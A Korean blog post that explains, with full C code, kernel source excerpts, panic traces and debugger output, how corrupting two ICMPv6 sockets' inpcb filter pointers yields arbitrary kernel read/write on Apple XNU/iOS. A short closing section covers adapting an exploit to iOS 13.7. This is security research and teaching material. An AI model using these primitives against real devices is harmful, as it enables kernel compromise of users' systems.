쉽게 핵심만 살펴보기 위해 코드를 재구현하였다. 

소켓을 2개 생성한 다음, inpcb 구조체에 있는 필드값 2곳을을 임의의 값으로 덮어쓰는데 KextRW를 이용해 임의로 덮어썼으며, 한번 자세히 다뤄보겠다.

- inpcbKernelRW/main.c

```c
// [https://github.com/wh1te4ever/tfp0_fun/tree/main/inpcbKernelRW](https://github.com/wh1te4ever/tfp0_fun/tree/main/inpcbKernelRW)

#include <stdio.h>
#include <mach-o/dyld.h>
#include <mach/mach.h>
#include <sys/fileport.h>
#include <sys/socket.h>
#include <sys/utsname.h>
#include <unistd.h>
#include <assert.h>
#include <sys/socket.h>
#include <netinet/icmp6.h>
#include <stdlib.h>
#include "offsets.h"
#include "kextrw.h"
#include "kutils.h"

// from kextrw.c
extern uint64_t gKernelBase;
extern uint64_t gKernelSlide;

// from DarkSword kexploit
#define GETSOCKOPT_READ_LEN 0x20
#define EARLY_KRW_LENGTH 0x20

int g_controlSocket = 0;
int g_rwSocket = 0;
uint8_t g_controlData[EARLY_KRW_LENGTH] = {0, };
uint64_t g_controlSocketPcb = 0;

fileport_t spray_socket(void) {
    int fd = socket(AF_INET6, SOCK_DGRAM, IPPROTO_ICMPV6);
    if (fd == -1) {
        printf("[-] socket create failed!!!");
        return fd;
    }

    fileport_t outputSocketPort = 0;
    fileport_makeport(fd, &outputSocketPort);
    close(fd);

    return outputSocketPort;
}

uint64_t socketPort_to_inpcb(fileport_t socketPort) {
    uint64_t selfTask = task_self();
    uint64_t fileglob = task_get_ipc_port_kobject(selfTask, socketPort);
    uint64_t socket = kextrw_kreadptr(fileglob + off_fg_data);
    uint64_t inpcb = kextrw_kread64(socket + off_socket_so_pcb);
    return inpcb;
}

void set_target_kaddr(uint64_t where) {
    memset(g_controlData, 0, GETSOCKOPT_READ_LEN);
    *(uint64_t *)g_controlData = where;
    int res = setsockopt(g_controlSocket, IPPROTO_ICMPV6, ICMP6_FILTER, g_controlData, EARLY_KRW_LENGTH);
    assert(res == 0);
}

void early_kread(uint64_t where, void *read_buf, size_t size) {
    if (size > EARLY_KRW_LENGTH) {
        printf("[!] error: (size > EARLY_KRW_LENGTH)\n");
        assert(false);
    }
    set_target_kaddr(where);
    socklen_t read_data_length = (socklen_t)size;
    int res = getsockopt(g_rwSocket, IPPROTO_ICMPV6, ICMP6_FILTER, read_buf, &read_data_length);
    assert(res == 0);
    return;
}

uint64_t early_kread64(uint64_t where) {
    uint64_t value = 0;
    early_kread(where, &value, sizeof(value));
    return value;
}

void early_kwrite32bytes(uint64_t where, uint8_t writeBuf[EARLY_KRW_LENGTH]) {
    set_target_kaddr(where);
    int res = setsockopt(g_rwSocket, IPPROTO_ICMPV6, ICMP6_FILTER, writeBuf, EARLY_KRW_LENGTH);
    if (res != 0) {
        printf("[-] setsockopt failed!!!");
        assert(false);
    }
}

void early_kwrite64(uint64_t where, uint64_t what) {
    uint8_t writeBuf[EARLY_KRW_LENGTH];
    early_kread(where, writeBuf, EARLY_KRW_LENGTH);
    *(uint64_t *)writeBuf = what;
    early_kwrite32bytes(where, writeBuf);
}

void krw_sockets_leak_forever(uint64_t controlSocketPcb, uint64_t rwSocketPcb) {
    uint64_t controlSocketAddr = early_kread64(controlSocketPcb + off_inpcb_inp_socket);
    // printf("controlSocketPcb + off_inpcb_inp_socket = 0x%llx -> 0x%llx\n", controlSocketPcb + off_inpcb_inp_socket, controlSocketAddr);usleep(50000);

    uint64_t rwSocketAddr = early_kread64(rwSocketPcb + off_inpcb_inp_socket);
    // printf("rwSocketPcb + off_inpcb_inp_socket = 0x%llx -> 0x%llx\n", rwSocketPcb + off_inpcb_inp_socket, rwSocketAddr);usleep(50000);

    if (!controlSocketAddr || !rwSocketAddr) {
        printf("[-] Couldn't find controlSocketAddr || rwSocketAddr\n");
    }

    uint64_t controlSocketSoCount = early_kread64(controlSocketAddr + off_socket_so_usecount);
    // printf("controlSocketAddr + off_socket_so_usecount = 0x%llx -> 0x%llx\n", controlSocketAddr + off_socket_so_usecount, controlSocketSoCount);usleep(50000);

    uint64_t rwSocketSoCount = early_kread64(rwSocketAddr + off_socket_so_usecount);
    // printf("rwSocketAddr + off_socket_so_usecount = 0x%llx -> 0x%llx\n", rwSocketAddr + off_socket_so_usecount, rwSocketSoCount);usleep(50000);

    // Set 0x1001 to socket->so_usecount, socket->so_retaincnt
    early_kwrite64(controlSocketAddr + off_socket_so_usecount,
                   controlSocketSoCount + 0x0000100100001001);
    early_kwrite64(rwSocketAddr + off_socket_so_usecount,
                   rwSocketSoCount + 0x0000100100001001);

    early_kwrite64(rwSocketPcb + off_inpcb_inp_depend6_inp6_chksum, 0);
}

int main(int argc, char *argv[], char *envp[]) {
    offsets_init();
    if(kextrw_init() != 0) {
        printf("kextrw_init() failed!\n");
        while(1) {};
    }
    kextrw_get_kernel_base();

    fileport_t socketPort = spray_socket();
    fileport_t socketPort2 = spray_socket();
    printf("socketPort = 0x%x, socketPort2 = 0x%x\n", socketPort, socketPort2);

    uint64_t inpcb = socketPort_to_inpcb(socketPort);
    uint64_t inpcb2 = socketPort_to_inpcb(socketPort2);
    printf("inpcb = 0x%llx, inpcb2 = 0x%llx\n", inpcb, inpcb2);

    printf("Corrupting inpcb...\n");
    uint64_t nextInpcb = kextrw_kread64(inpcb + off_inpcb_inp_list_le_prev) - off_inpcb_inp_list_le_next;
    assert(nextInpcb == inpcb2);    // should be same with inpcb2
    kextrw_kwrite64(inpcb + off_inpcb_inp_depend6_inp6_icmp6filt, nextInpcb + off_inpcb_inp_depend6_inp6_icmp6filt);
    kextrw_kwrite64(inpcb + off_inpcb_inp_depend6_inp6_chksum, 0);

    printf("Buliding kernel r/w...\n");
    socklen_t len = GETSOCKOPT_READ_LEN;
    void *getsockoptReadData = calloc(1, len);
    int sock = fileport_makefd(socketPort);
    int res = getsockopt(sock, IPPROTO_ICMPV6, ICMP6_FILTER, getsockoptReadData, &len);
    assert(res == 0);
    g_controlSocket = sock;
    g_rwSocket = fileport_makefd(socketPort2);

    printf("Testing kernel r/w...\n");
    uint64_t sig = early_kread64(gKernelBase);
    printf("sig = 0x%llx\n", sig);
    assert(sig == 0x100000cfeedfacf);
    uint64_t kptr = kextrw_kalloc(PAGE_SIZE);
    early_kwrite64(kptr, 0x4142434413371338);
    uint64_t val = kextrw_kread64(kptr);
    printf("kptr = 0x%llx -> val: 0x%llx\n", kptr, val);;
    assert(val == 0x4142434413371338);
    kextrw_kfree(kptr, PAGE_SIZE);

    uint64_t controlSocketPcb = early_kread64(nextInpcb + off_inpcb_inp_list_le_next);
    assert(controlSocketPcb == inpcb);  // should be same with inpcb
    krw_sockets_leak_forever(controlSocketPcb, nextInpcb);

    kextrw_deinit();

    puts("done");
    getchar();
    return 0;
}

```

우선 `spray_socket`을 살펴보면, 소켓을 생성하고 `fileport_makeport` 를 호출하는 것을 볼 수 있다.

```c
fileport_t spray_socket(void) {
    int fd = socket(AF_INET6, SOCK_DGRAM, IPPROTO_ICMPV6);
    if (fd == -1) {
        printf("[-] socket create failed!!!");
        return fd;
    }

    fileport_t outputSocketPort = 0;
    fileport_makeport(fd, &outputSocketPort);
    close(fd);

    return outputSocketPort;
}
```

`fileport_makeport` 는 파일 디스크립터와 새로 생성될 Mach 포트를 인자로 받는다. 커널에서 `sys_fileport_makeport`를 살펴보면, `fileport_alloc`을 통해 새 포트를 생성하고 해당 포트에 대한 send right를 `ipc_port_copyout_send`에서 할당한 다음, `fileglob` 파일 디스크립터를 지원하는 커널 구조체를 해당 포트와 연결한다. `fg_ref`에 의해 `fg_count`를 증가시킨 다음, 파일 디스크립터가 Mach name-right이 되었으므로, Mach 메시지 내의 디스크립터(descriptor)로서 다른 프로세스로 전송시킬 수 있다.

```c
// xnu-12377.1.9/bsd/kern/kern_descrip.c:5879

int
sys_fileport_makeport(proc_t p, struct fileport_makeport_args *uap,
    __unused int *retval)
{
	int err;
	int fd = uap->fd;
	user_addr_t user_portaddr = uap->portnamep;
	struct fileproc *fp = FILEPROC_NULL;
	struct fileglob *fg = NULL;
	ipc_port_t fileport;
	mach_port_name_t name = MACH_PORT_NULL;

	...
	err = fp_lookup(p, fd, &fp, 1);
	if (err != 0) {
		goto out_unlock;
	}

	fg = fp->fp_glob;
	...

	/* Dropped when port is deallocated */
	fg_ref(p, fg);

	...

	/* Allocate and initialize a port */
	fileport = fileport_alloc(fg);
	if (fileport == IPC_PORT_NULL) {
		fg_drop_live(fg);
		err = EAGAIN;
		goto out;
	}

	/* Add an entry.  Deallocates port on failure. */
	name = ipc_port_copyout_send(fileport, get_task_ipcspace(proc_task(p)));
	if (!MACH_PORT_VALID(name)) {
		err = EINVAL;
		goto out;
	}

	err = copyout(&name, user_portaddr, sizeof(mach_port_name_t));
	if (err != 0) {
		goto out;
	}

	...

	return 0;

out_unlock:
	proc_fdunlock(p);
out:
	...

	return err;
}
```

이후에 `close(fd)` 를 수행하더라도, fileglob refcount를 증가시켰기 때문에 socket/inpcb는 그대로 커널 메모리에 남아있다. `close_nocancel` → `fp_close_and_unlock` → `fg_drop` → `os_ref_release_raw` 에 의해 fg_count가 감소되더라도 0이 되지 않기 때문에, `fg_close`, `fg_free` 가 수행되지 않는다.

각각 2개의 소켓을 생성하여 파일 포트를 만들고, inpcb를 취약점을 통해 수정할 수 있다고 가정하에 `socketPort_to_inpcb` 함수로 inpcb 커널 주소를 획득함으로써 수정하도록 한다.

처음에 생성한 소켓의 inpcb 구조체 중 `inp_depend6.inp6_icmp6filt`, `inp_depend6.inp6_cksum` 두 필드를 수정한다. `inp_depend6.inp6_icmp6filt` 에는 다음번에 생성했던 소켓 중 inpcb의 `inp_depend6.inp6_icmp6filt` 주소 값으로 덮어쓰며, `inp_depend6.inp6_cksum` 에는 0으로 덮어쓴다.

```c
fileport_t spray_socket(void) {
    int fd = socket(AF_INET6, SOCK_DGRAM, IPPROTO_ICMPV6);
    if (fd == -1) {
        printf("[-] socket create failed!!!");
        return fd;
    }

    fileport_t outputSocketPort = 0;
    fileport_makeport(fd, &outputSocketPort);
    close(fd);

    return outputSocketPort;
}

int main(int argc, char *argv[], char *envp[]) {
    offsets_init();
    if(kextrw_init() != 0) {
        printf("kextrw_init() failed!\n");
        while(1) {};
    }
    kextrw_get_kernel_base();

    fileport_t socketPort = spray_socket();
    fileport_t socketPort2 = spray_socket();
    printf("socketPort = 0x%x, socketPort2 = 0x%x\n", socketPort, socketPort2);

    uint64_t inpcb = socketPort_to_inpcb(socketPort);
    uint64_t inpcb2 = socketPort_to_inpcb(socketPort2);
    printf("inpcb = 0x%llx, inpcb2 = 0x%llx\n", inpcb, inpcb2);
    
    printf("Corrupting inpcb...\n");
    uint64_t nextInpcb = kextrw_kread64(inpcb + off_inpcb_inp_list_le_prev) - off_inpcb_inp_list_le_next;
    assert(nextInpcb == inpcb2);    // should be same with inpcb2
    kextrw_kwrite64(inpcb + off_inpcb_inp_depend6_inp6_icmp6filt, nextInpcb + off_inpcb_inp_depend6_inp6_icmp6filt);
    kextrw_kwrite64(inpcb + off_inpcb_inp_depend6_inp6_chksum, 0);
    ...
}
```

만약에 덮어쓰기만 하고 바로 프로그램을 종료시킨다면, 아래와 같은 패닉이 발생한다.

프로그램이 종료되면 소켓이 자동으로 닫히면서 할당받았던 객체를 해제하려고 한다. 커널에서 `rip6_detach` 수행 중  `in6p_icmp6filt` 를 kfree하며, 여기서 할당받았던 커널 객체가 특정 존에 위치하는지 검사하다가 실패하는 것으로 보인다.

```c
panic(cpu 1 caller 0xfffffe0026b0c038): 0xfffffe1e38bb7d48 not in the expected zone data.kalloc.32[42], but found in kalloc.type0.1024[321] @zalloc.c:741

(lldb) bt
* thread #4, name = 'CPU4', stop reason = breakpoint 3.1
  * frame #0: 0xfffffe0026b05f44 kernel.release.vmapple`panic(str="%p not in the expected zone %s%s[%d], but found in %s%s[%d] @%s:%d") at debug.c:1158:2 [opt]
    frame #1: 0xfffffe0026b0c038 kernel.release.vmapple`zone_page_metadata_index_confusion_panic(zone=<unavailable>, addr=18446742004487126344, meta=<unavailable>) at zalloc.c:739:2 [opt]
    frame #2: 0xfffffe0026b0c350 kernel.release.vmapple`zone_invalid_element_panic(zone=0xfffffe0028d21c00, addr=18446742004487126344) at zalloc.c:1114:3 [opt]
    frame #3: 0xfffffe00262a2320 kernel.release.vmapple`__zcache_mark_invalid(zone=<unavailable>, elem=<unavailable>, combined_size=<unavailable>) at zalloc.c:0 [opt] [inlined]
    frame #4: 0xfffffe00262a2314 kernel.release.vmapple`zfree_ext(zone=<unavailable>, zstats=<unavailable>, addr=<unavailable>, combined_size=<unavailable>) at zalloc.c:5491:9 [opt]
    frame #5: 0xfffffe00267014e8 kernel.release.vmapple`rip6_detach(so=<unavailable>) at raw_ip6.c:1045:3 [opt]
    frame #6: 0xfffffe002680250c kernel.release.vmapple`soclose_locked(so=0xfffffe28cdc80040) at uipc_socket.c:1307:16 [opt]
    frame #7: 0xfffffe0026802be0 kernel.release.vmapple`soclose(so=0xfffffe28cdc80040) at uipc_socket.c:1343:11 [opt]
    frame #8: 0xfffffe002676006c kernel.release.vmapple`fo_close(fg=0xfffffe2301c39508, ctx=0xfffffe8f36997ba0) at kern_descrip.c:6202:9 [opt] [inlined]
    frame #9: 0xfffffe0026760044 kernel.release.vmapple`fg_drop(p=0xffffffffffffffff, fg=0xfffffe2301c39508) at kern_descrip.c:289:11 [opt] [inlined]
    frame #10: 0xfffffe0026760030 kernel.release.vmapple`fileport_releasefg(fg=0xfffffe2301c39508) at kern_descrip.c:5960:8 [opt]
    frame #11: 0xfffffe002620afd4 kernel.release.vmapple`ipc_notify_no_senders_kobject(port=0xfffffe1d33e2c220, mscount=1) at ipc_notify.c:175:3 [opt] [inlined]
    frame #12: 0xfffffe002620afa0 kernel.release.vmapple`ipc_notify_no_senders_emit(nsrequest=ipc_notify_nsenders_t @ 0x0000600002b29e80) at ipc_notify.h:241:3 [opt] [inlined]
    frame #13: 0xfffffe002620af3c kernel.release.vmapple`ipc_right_terminate(space=<unavailable>, name=3851, entry=0xfffffe28cd52e668) at ipc_right.c:822:3 [opt]
    frame #14: 0xfffffe002620e3f4 kernel.release.vmapple`ipc_space_terminate(space=0xfffffe2404037a00) at ipc_space.c:465:4 [opt]
    frame #15: 0xfffffe002626ccd8 kernel.release.vmapple`task_terminate_internal(task=0xfffffe186cb38910) at task.c:3291:2 [opt]
    frame #16: 0xfffffe00267810a8 kernel.release.vmapple`exit_with_reason(p=0xfffffe186cb38170, rv=2, retval=<unavailable>, thread_can_terminate=<unavailable>, perf_notify=1, jetsam_flags=0, exit_reason=0xfffffe186ce3dbe0) at kern_exit.c:1664:2 [opt]
    frame #17: 0xfffffe00267aa0a8 kernel.release.vmapple`postsig_locked(signum=2) at kern_sig.c:3186:3 [opt]
    frame #18: 0xfffffe00267aa5d8 kernel.release.vmapple`bsd_ast(thread=0xfffffe186ca7d828) at kern_sig.c:3455:4 [opt]
    frame #19: 0xfffffe0026219c98 kernel.release.vmapple`ast_taken_user at ast.c:225:3 [opt]
    frame #20: 0xfffffe00261cc438 kernel.release.vmapple`user_take_ast + 12
```

다시 돌아와서, 2군데의 필드값을 덮어썼다면, 

이제 커널 읽기/쓰기가 어떻게 이뤄지는지 다뤄볼 차례이다.

`fileport_makefd`는 이전에 생성했던 파일 포트를 다시 파일 디스크립터로 변환해주는 함수이며, `getsockopt`로 `getsockoptReadData` 데이터를 가져오는 것을 볼 수 있다.

```c
int main(int argc, char *argv[], char *envp[]) {
    ...
    printf("Buliding kernel r/w...\n");
    socklen_t len = GETSOCKOPT_READ_LEN;
    void *getsockoptReadData = calloc(1, len);
    int sock = fileport_makefd(socketPort);
    int res = getsockopt(sock, IPPROTO_ICMPV6, ICMP6_FILTER, getsockoptReadData, &len);
    assert(res == 0);
    uhexdump((uint64_t)getsockoptReadData, len);
    ...   
}
```

`getsockopt` 경로를 커널에서 따라가서 살펴보면,

`getsockopt` → `sogetoptlock` → `icmp6_ctloutput` → `sooptcopyout`에서 커널 공간의 데이터를 사용자 공간의 메모리로 복사해서 가져온다.



`icmp6_ctloutput` 함수를 자세히 들여다보면, `in6p_icmp6filt` 를 가리키는 곳으로부터 읽어온다.

```c
int
icmp6_ctloutput(struct socket *so, struct sockopt *sopt)
{
	switch (op) {
	...
	case PRCO_GETOPT:
		switch (optname) {
		case ICMP6_FILTER:
		{
			if (inp->in6p_icmp6filt == NULL) {
				error = EINVAL;
				break;
			}
			size_t copylen = MIN(sizeof(struct icmp6_filter), optlen);
			error = sooptcopyout(sopt, __unsafe_forge_bidi_indexable(void*, inp->in6p_icmp6filt, optlen), copylen);
			break;
		}
  ...
	return error;
}
```

`getsockoptReadData` 데이터 내용을 살펴보면 아래와 같으며,

```c
socketPort = 0x1a13, socketPort2 = 0x1903
inpcb = 0xfffffe2412927000, inpcb2 = 0xfffffe2412924000
socket = 0xfffffe230f854b80, socket2 = 0xfffffe230f854f40
Corrupting inpcb...
Buliding kernel r/w...
[0x0000000ab2c02fe0+0x000] 40 FD 2A AA 2F FE FF FF  FF FF FF FF FF FF 00 00  |  @.*./........... 
[0x0000000ab2c02fe0+0x010] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
Testing kernel r/w...
```

`icmp6_ctloutput`에서 copyout으로 함수를 호출하는 곳을 브레이크포인트 걸어서



커널 디버거에서 확인해봤을때, **0xfffffe2412924148** 커널 주소로부터 데이터를 가져오는 것을 알 수 있다.

```c
(lldb) reg read x0 x1 x2
      x0 = 0xfffffe2412924148
      x1 = 0x0000000ab2c02fe0
      x2 = 0x0000000000000020
(lldb) x/32gx $x0
0xfffffe2412924148: 0xfffffe2faa2afd40 0x0000ffffffffffff
0xfffffe2412924158: 0x0000000000000000 0x0000000000000000
```

**0xfffffe2412924148** 값은 1번째 생성한(스프레이한) 소켓 중 `inpcb->inp6_icmp6filt` 값이라는 것을 알 수 있다.

```c
(lldb) p/x *(inpcb*)0xfffffe2412927000
(inpcb) {
  ...
  inp_depend6 = {
    inp6_options = nullptr
    inp6_outputopts = nullptr
    inp6_moptions = nullptr
    inp6_icmp6filt = 0xfffffe2412924148
    inp6_cksum = 0x00000000
    inp6_hops = 0x0000
  }
```



다음으로, inpcb2의 `inp_depnd6.inp6_icmp6filt` 필드에 위치한 값을 수정하여 임의 커널 읽기를 구현하는 과정이다. 2번째로 생성한 소켓 디스크립터 값을 `g_rwSocket`, 1번째로 생성한 소켓 디스크립터 값을 `g_controlSocket` 전역변수에 각각 지정한다.

그리고 `early_kread64`를 통해 커널 베이스 값을 한번 읽어보고자 한다.

```c
int main(int argc, char *argv[], char *envp[]) {
    ...
    g_controlSocket = sock;
    g_rwSocket = fileport_makefd(socketPort2);

    printf("Testing kernel r/w...\n");
    uint64_t sig = early_kread64(gKernelBase);
    printf("sig = 0x%llx\n", sig);
    assert(sig == 0x100000cfeedfacf);
    ...
}
```

`early_kread` 를 살펴보면 `set_target_kaddr`를 호출하는데 여기서 `setsockopt`를 통해 읽힐 커널 주소 대상을 정한다. 

```c
void set_target_kaddr(uint64_t where) {
    memset(g_controlData, 0, GETSOCKOPT_READ_LEN);
    *(uint64_t *)g_controlData = where;
    int res = setsockopt(g_controlSocket, IPPROTO_ICMPV6, ICMP6_FILTER, g_controlData, EARLY_KRW_LENGTH);
    assert(res == 0);
}

void early_kread(uint64_t where, void *read_buf, size_t size) {
    if (size > EARLY_KRW_LENGTH) {
        printf("[!] error: (size > EARLY_KRW_LENGTH)\n");
        assert(false);
    }
    set_target_kaddr(where);
    socklen_t read_data_length = (socklen_t)size;
    int res = getsockopt(g_rwSocket, IPPROTO_ICMPV6, ICMP6_FILTER, read_buf, &read_data_length);
    assert(res == 0);
    return;
}

uint64_t early_kread64(uint64_t where) {
    uint64_t value = 0;
    early_kread(where, &value, sizeof(value));
    return value;
}

int main(int argc, char *argv[], char *envp[]) {
    ...
    uint64_t sig = early_kread64(gKernelBase);
    printf("sig = 0x%llx\n", sig);
    ...
}
```

`setsockopt` 경로를 커널에서 따라가서 살펴보면,

`setsockopt` → `sogetoptlock` → `icmp6_dgram_ctloutput` → `icmp6_ctloutput` → `sooptcopyin`에서 `inp->in6p_icmp6filt` 에다가 사용자 공간의 메모리를 커널 공간에 쓴다.



따라서 `set_target_kaddr`를 수행하면, 

생성한 1번째 소켓의 `in6p_icmp6filt`값이 2번째 소켓의 `in6p_icmp6filt` 위치를 가리키기 때문에,
생성한 2번째 소켓 중 `inpcb->in6p_icmp6filt` 필드값이 읽힐 커널 주소로 지정된다.



이제부터 2번째로 생성한 소켓 디스크립터로 `getsockopt`를 통해 커널 읽기가 가능하다. 

이전에 설명했듯이, 커널의 `icmp6_ctloutput` 에서 `in6p_icmp6filt` 를 가리키는 곳으로부터 값을 읽어오기 때문이다.

```c
int res = getsockopt(g_rwSocket, IPPROTO_ICMPV6, ICMP6_FILTER, read_buf, &read_data_length);
```

다음으로, “커널 쓰기”에 대해 살펴보자. 

kextrw에서 제공해주는 API를 통해 커널을 할당받은 다음, 할당받은 주소에 제대로 값이 써졌는지 확인해본다. 커널에 임의의 주소를 쓰는 함수는 `early_kwrite64` 에 있다.

```c
int main(int argc, char *argv[], char *envp[]) {
    ...
    uint64_t kptr = kextrw_kalloc(PAGE_SIZE);
    early_kwrite64(kptr, 0x4142434413371338);
    uint64_t val = kextrw_kread64(kptr);
    printf("kptr = 0x%llx -> val: 0x%llx\n", kptr, val);;
    assert(val == 0x4142434413371338);
    kextrw_kfree(kptr, PAGE_SIZE);
    ...
}
```

`early_kwrite64` 를 살펴보면, 우선 `early_kread`를 수행하는 것을 볼 수 있는데, 이는 socket 특성상 32바이트 크기를 컨트롤 할 수 있기 때문이다. 따라서 특정 주소로부터 32바이트 값을 읽은 다음, 첫 8바이트값만 임의의 값을 쓰고 나머지 데이터는 유지시킨다. 

`early_kwrite32bytes` 를 살펴보자.

`set_target_kaddr`을 수행하면, 생성한 1번째 소켓의 `in6p_icmp6filt`값이 2번째 소켓의 `in6p_icmp6filt` 위치를 가리키기 때문에 2번째 소켓 중 `inpcb->in6p_icmp6filt` 필드값이 읽힐 커널 주소로 지정된다. 

그렇기 때문에, 2번째 소켓 디스크립터로 `setsockopt` 호출을 하면은 임의의 값을 쓸 수 있다.

```c
void early_kwrite32bytes(uint64_t where, uint8_t writeBuf[EARLY_KRW_LENGTH]) {
    set_target_kaddr(where);
    int res = setsockopt(g_rwSocket, IPPROTO_ICMPV6, ICMP6_FILTER, writeBuf, EARLY_KRW_LENGTH);
    if (res != 0) {
        printf("[-] setsockopt failed!!!");
        assert(false);
    }
}

void early_kwrite64(uint64_t where, uint64_t what) {
    uint8_t writeBuf[EARLY_KRW_LENGTH];
    early_kread(where, writeBuf, EARLY_KRW_LENGTH);
    *(uint64_t *)writeBuf = what;
    early_kwrite32bytes(where, writeBuf);
}
```

그림으로 간단히 나타낸다면, 아래와 같다.



마지막으로 `krw_sockets_leak_forever` 를 살펴보자.

생성했던 2개 소켓이 그대로 커널에 남아있게 하기 위해 `socket->so_usecount`, `socket->so_retaincnt` 을 각각 0x1001으로 증가시킨다. 그러면 프로그램이 종료되어도 소켓 할당이 해제되면서 zone 관련 패닉이 발생하지 않는 이점이 있다.

```c
void krw_sockets_leak_forever(uint64_t controlSocketPcb, uint64_t rwSocketPcb) {
    uint64_t controlSocketAddr = early_kread64(controlSocketPcb + off_inpcb_inp_socket);
    // printf("controlSocketPcb + off_inpcb_inp_socket = 0x%llx -> 0x%llx\n", controlSocketPcb + off_inpcb_inp_socket, controlSocketAddr);usleep(50000);

    uint64_t rwSocketAddr = early_kread64(rwSocketPcb + off_inpcb_inp_socket);
    // printf("rwSocketPcb + off_inpcb_inp_socket = 0x%llx -> 0x%llx\n", rwSocketPcb + off_inpcb_inp_socket, rwSocketAddr);usleep(50000);

    if (!controlSocketAddr || !rwSocketAddr) {
        printf("[-] Couldn't find controlSocketAddr || rwSocketAddr\n");
    }

    uint64_t controlSocketSoCount = early_kread64(controlSocketAddr + off_socket_so_usecount);
    // printf("controlSocketAddr + off_socket_so_usecount = 0x%llx -> 0x%llx\n", controlSocketAddr + off_socket_so_usecount, controlSocketSoCount);usleep(50000);

    uint64_t rwSocketSoCount = early_kread64(rwSocketAddr + off_socket_so_usecount);
    // printf("rwSocketAddr + off_socket_so_usecount = 0x%llx -> 0x%llx\n", rwSocketAddr + off_socket_so_usecount, rwSocketSoCount);usleep(50000);

    // Set 0x1001 to socket->so_usecount, socket->so_retaincnt
    early_kwrite64(controlSocketAddr + off_socket_so_usecount,
                   controlSocketSoCount + 0x0000100100001001);
    early_kwrite64(rwSocketAddr + off_socket_so_usecount,
                   rwSocketSoCount + 0x0000100100001001);

    early_kwrite64(rwSocketPcb + off_inpcb_inp_depend6_inp6_chksum, 0);
}

int main(int argc, char *argv[], char *envp[]) {
    ...
    uint64_t controlSocketPcb = early_kread64(nextInpcb + off_inpcb_inp_list_le_next);
    assert(controlSocketPcb == inpcb);  // should be same with inpcb
    krw_sockets_leak_forever(controlSocketPcb, nextInpcb);

    kextrw_deinit();

    puts("done");
    getchar();
    return 0;
}

```

# iOS 13.7 이하버전에서의 익스플로잇 시도하기

아이패드 7세대 / iOS 13.7이하 구버전에서 커널 익스플로잇이 작동 안되길래, 작동되도록 한번 도전해보았다.. xnuspy 없이 커널 익스플로잇을 달성하지는 못했으며, 아래 2가지 요구조건이 필요하다.

- `vm_object_iopl_request` 에서 페이지 경계를 업데이트하는 코드가 iOS 14.0 부터 도입되었기 때문에 xnuspy를 통해 해당 코드를 넣어 후킹해주어야 한다.  `vm_page_insert_internal: (page=0xfffffff0f5207db0,obj=0xffffffe005393500,off=0x8000000,size=0x8000000) inserted at offset past object bounds` 관련 패닉이 발생하기 때문이다.
- 익스플로잇 코드 중 `pe_v1` 에 있는 `seekingOffset`값을 0x3000000 이상 값으로 튜닝해줄 필요가 있었다. `cluster_align_phys_io` 를 후킹하여 usr_paddr 값을 출력시킴으로써 어느 물리 메모리 주소를 OOB read하는지 알 수 있었으며, 만약 튜닝하지 않는다면 익스플로잇하는데 꽤 오래걸렸던 것으로 기억한다.





# 참고 자료

[https://robert.sesek.com/2014/1/changes_to_xnu_mach_ipc.html](https://robert.sesek.com/2014/1/changes_to_xnu_mach_ipc.html)

[https://github.com/apple-oss-distributions/xnu](https://github.com/apple-oss-distributions/xnu)

[https://gist.github.com/Muirey03/8c8370258e32bafaf99e72ec90258c8d](https://gist.github.com/Muirey03/8c8370258e32bafaf99e72ec90258c8d)

[https://developer.apple.com/library/archive/documentation/Darwin/Conceptual/KernelProgramming/vm/vm.html](https://developer.apple.com/library/archive/documentation/Darwin/Conceptual/KernelProgramming/vm/vm.html)